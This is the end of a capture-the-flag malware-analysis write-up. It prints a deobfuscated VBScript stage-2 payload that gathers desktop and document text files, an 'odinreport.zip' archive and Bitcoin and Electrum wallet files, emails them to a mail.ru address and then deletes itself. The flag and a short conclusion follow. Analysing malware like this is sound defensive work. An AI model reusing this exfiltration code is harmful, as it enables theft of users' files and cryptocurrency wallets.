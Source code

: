 ```vb
iMsg.From=strFrom 
iMsg.Subject=strSubject 

iMsg.TextBody=strBody 
Set fld = FSO.GetFolder(S.SpecialFolders(Desktop))
For each file in fld.files
    if LCase(FSO.GetExtensionName(file)) = "txt" Then
        iMsg.AddAttachment file.path
	
    End if
Next







Flds.Update 
iMsg.Configuration=iConf 
iMsg.To=strTo 

iMsg.From=strFrom 
iMsg.Subject=strSubject 
iMsg.TextBody=strBody 

Set fld = FSO.GetFolder(S.SpecialFolders(MyDocuments))
For each file in fld.files
    if LCase(FSO.GetExtensionName(file)) = "txt" Then
        iMsg.AddAttachment file.path
	
    End if
Next
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "A:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "B:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "D:\Users\" & strUserName & "\AppData\Local\odin\odinreport.zip"
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Roaming\Bitcoin\wallet.dat"
iMsg.AddAttachment "C:\Users\" & strUserName & "\AppData\Roaming\Electrum\wallets\default_wallet"
iMsg.Send



Set mFSO = CreateObject("Scripting.FileSystemObject")

Call mFSO.DeleteFile(WScript.ScriptFullName, True)
```

As you can see, this malware is an information stealer malware, as **it's exfiltrating `odinreport.zip`, crypto wallet like Bitcoin's `wallet.dat`, Electrum's `default_wallet`.**

**Also, in this stage 2 payload, it's adding those attachments to an email, and send to email address `bmwqia84@mail.ru`.**

- **Flag: `Hero{bmwqia84@mail.ru|default_wallet}`**

## Conclusion

What we've learned:

1. Manually Deobfuscating VBScript Code